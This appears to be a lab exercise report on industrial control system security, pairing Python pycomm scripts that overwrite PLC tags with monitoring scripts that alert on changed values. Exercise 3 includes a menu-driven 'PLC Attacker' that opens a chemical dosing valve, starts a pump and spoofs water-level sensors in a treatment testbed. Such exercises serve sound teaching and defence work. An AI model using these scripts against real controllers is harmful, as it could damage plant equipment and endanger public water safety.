


===========
CPS Control
===========

.. contents::

.. sectnum::

Exercise 01
===========

Source
------

Attack
~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 1: Attack

   The button DO_10 is supposed to stay lit at all times.
   Perform an attack to switch off the light of the button DO_10.
   """
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'DO_10'
   VALUE = 0
   TAG_TYPE = 'BOOL'

   def write_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           value=VALUE,
           tag_type=TAG_TYPE
           ):
       plc = ClxDriver()
       if plc.open(plc_ip):
           if plc.write_tag(tag_name, value, tag_type):
               print("Success")
               print("Target: " + plc_ip)
               print("Tag Name: " + tag_name)
               print("Value: " + str(value))
               print("Tag Type: " + tag_type)
           else:
               print("Failed to write to " + plc_ip)
           plc.close()
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       write_plc()

Defence
~~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 1: Defence

   If the button DO_10 is switched off, display an alert to the administrator.
   """
   from time import sleep
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'DO_10'
   INTENDED_VALUE = 1

   def monitor_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           intended_value=INTENDED_VALUE
           ):
       while True:
           tag_value = read_plc(plc_ip, tag_name)
           if tag_value != intended_value:
               print("*** ALERT ***")
               print(plc_ip + ": " + tag_name)
               print(
                   "Returning " + str(tag_value)
                   + " instead of " + str(intended_value)
                   )
           sleep(5)

   def read_plc(plc_ip, tag_name):
       plc = ClxDriver()
       if plc.open(plc_ip):
           tag_value = plc.read_tag(tag_name)[0]
           plc.close()
           return tag_value
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       monitor_plc()

.. raw:: pdf

   PageBreak

Results
-------

  DO_10 light on before attack

  DO_10 light off after attack

  Alert!

Exercise 02
===========

Source
------

Attack
~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 2: Attack

   The button DO_10 is supposed to light up if the temperature rises above the
   threshold temperature of 30 degrees Celsius. Perform an attack to alter the
   threshold temperature to a different value (e.g. 40 degrees Celsius)
   """
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'ThresTemp'
   VALUE = 40.0
   TAG_TYPE = 'REAL'

   def write_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           value=VALUE,
           tag_type=TAG_TYPE
           ):
       plc = ClxDriver()
       if plc.open(plc_ip):
           if plc.write_tag(tag_name, value, tag_type):
               print("Success")
               print("Target: " + plc_ip)
               print("Tag Name: " + tag_name)
               print("Value: " + str(value))
               print("Tag Type: " + tag_type)
           else:
               print("Failed to write to " + plc_ip)
           plc.close()
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       write_plc()

Defence
~~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 2: Defence

   If the threshold temperature is suspiciously different, display an alert to
   the administrator.
   """
   from time import sleep
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'ThresTemp'
   INTENDED_VALUE = 30.0

   def monitor_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           intended_value=INTENDED_VALUE
           ):
       while True:
           tag_value = read_plc(plc_ip, tag_name)
           if tag_value != intended_value:
               print("*** ALERT ***")
               print(plc_ip + ": " + tag_name)
               print(
                   "Returning " + str(tag_value)
                   + " instead of " + str(intended_value)
                   )
           sleep(5)

   def read_plc(plc_ip, tag_name):
       plc = ClxDriver()
       if plc.open(plc_ip):
           tag_value = plc.read_tag(tag_name)[0]
           plc.close()
           return tag_value
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       monitor_plc()

.. raw:: pdf

   PageBreak

Results
-------

  Threshold temperature at 30.0°C before attack

  
  DO_10 lights up above 30.0°C before attack

  DO_10 does not light up at 30.0°C after attack

  Alert!

Exercise 03
===========

Source
------

Attack
~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 3: Attack

   Use pycomm code to launch an attack on
       MV201
       P301
       LIT301
       LIT401

   Check the response on the invariant-based monitor.
   """
   import os
   from sys import exit
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IPS = {
       'plc1': '192.168.1.10',
       'plc2': '192.168.1.20',
       'plc3': '192.168.1.30',
       'plc4': '192.168.1.40',
   }

   def LIT101():
       print("Attacking LIT101...")
       print("Overriding sensor input...")
       write_plc(PLC_IPS['plc1'], 'HMI_LIT101.Sim', True, 'BOOL')
       print("Changing sensor value...")
       write_plc(PLC_IPS['plc1'], 'HMI_LIT101.Sim_PV', 200, 'REAL')

   def MV201():
       print("Attacking MV201...")
       print("Switching to manual override...")
       write_plc(PLC_IPS['plc2'], 'HMI_MV201.Auto', False, 'BOOL')
       print("Opening valve...")
       # 1 - close; 2 - open
       write_plc(PLC_IPS['plc2'], 'HMI_MV201.Cmd', 2, 'INT')

   def P301():
       print("Attacking P301...")
       print("Switching to manual override...")
       write_plc(PLC_IPS['plc3'], 'HMI_P301.Auto', False, 'BOOL')
       print("Engaging pump...")
       # 1 - stop; 2 - start
       write_plc(PLC_IPS['plc3'], 'HMI_P301.Cmd', 2, 'INT')

   def LIT301():
       print("Attacking LIT301...")
       print("Overriding sensor input...")
       write_plc(PLC_IPS['plc3'], 'HMI_LIT301.Sim', True, 'BOOL')
       print("Changing sensor value...")
       write_plc(PLC_IPS['plc3'], 'HMI_LIT301.Sim_PV', 200, 'REAL')

   def LIT401():
       print("Attacking LIT401...")
       print("Overriding sensor input...")
       write_plc(PLC_IPS['plc4'], 'HMI_LIT401.Sim', True, 'BOOL')
       print("Changing sensor value...")
       write_plc(PLC_IPS['plc4'], 'HMI_LIT401.Sim_PV', 200, 'REAL')

   def Quit():
       print("Quitting")
       exit()

   def invalid_option():
       print("Invalid option")

   def write_plc(plc_ip, tag_name, value, tag_type):
       plc = ClxDriver()
       if plc.open(plc_ip):
           if plc.write_tag(tag_name, value, tag_type):
               print("Success")
               print("Target: " + plc_ip)
               print("Tag Name: " + tag_name)
               print("Value: " + str(value))
               print("Tag Type: " + tag_type)
           else:
               print("Failed to write to " + plc_ip)
           plc.close()
       else:
           print("Unable to open: ", plc_ip)

   def menu():
       TARGETS = {
           '1': LIT101,
           '2': MV201,
           '3': P301,
           '4': LIT301,
           '5': LIT401,
           'q': Quit,
           }
       while True:
           os.system('cls' if os.name == 'nt' else 'clear')
           print("PLC Attacker")
           print("============")
           for key, value in sorted(TARGETS.items()):
               print("{}: {}".format(key.upper(), value.__name__))
           target = raw_input("\nSelect an option: ")
           func = TARGETS.get(target.lower(), invalid_option)
           func()
           raw_input("\nPress enter to continue")

   if __name__ == '__main__':
       menu()

.. raw:: pdf

   PageBreak

Results
-------

MV201
~~~~~

  MV-201 chemical dosing valve closed before attack

  MV-201 chemical dosing valve open after attack

  MV-201 invariant violation alert

.. raw:: pdf

   PageBreak

P301
~~~~

  P-301 UF feed pump 1 stopped before attack

  P-301 UF feed pump 1 running after attack

  P-301 invariant violation alert

.. raw:: pdf

   PageBreak

LIT301
~~~~~~

.. figure:: images/ex_03-lit301-before.jpg
  :width: 100%
  :alt: LIT301 before attack

  LIT-301 UF feed water level transmitter reading 1013mm before attack

  LIT-301 UF feed water level transmitter reading 200mm after attack

  LIT-301 invariant violation alert

.. raw:: pdf

   PageBreak

LIT401
~~~~~~

  LIT-401 RO feed water level transmitter reading 1020mm before attack

  LIT-401 RO feed water level transmitter reading 200mm after attack

  LIT-401 invariant violation alert
